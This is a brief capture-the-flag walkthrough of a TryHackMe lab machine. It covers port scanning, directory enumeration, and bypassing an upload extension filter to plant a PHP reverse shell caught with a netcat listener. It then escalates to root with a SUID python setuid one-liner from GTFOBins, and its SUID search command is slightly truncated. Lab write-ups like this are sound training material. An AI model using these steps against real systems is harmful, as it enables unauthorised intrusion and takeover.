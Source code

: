 
Link: https://tryhackme.com/room/rrootme

# Recon: 

`nmap -sC -sV -oA results.txt 10.10.136.193`
Default scripts and default services.

Result: 2 ports are open: 1- SSH 2- HTTP

If we look at the HTTP site, there's nothing interesting so we will enumerate the directories.

# Enum:
```gobuster dir -u 10.10.136.193 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt```

We get 2 interesting directories, 1- `panel` and 2- `uploads`.

In `panel` we can upload a file, let's upload the traditional PHP reverse shell to get the initial access to the machine.

# Rev-shell
There's a file extension restriction on php so we can just name our script as php5 and it would work.

Listen on netcat using `nc -lnvp {port}`

We get the shell, we can upgrade it using: 
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# Priv-esc
To find SUID binaries aka binaries which are reserved by root which can be run by us, we use the following command:

```
find / -perm /4000 2>/dev/  
```

We can see python is in the list: `/usr/bin/python`

Let's go on GTFOBins and find an exploit command:
```
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Boom we're root and can easily get the flag.
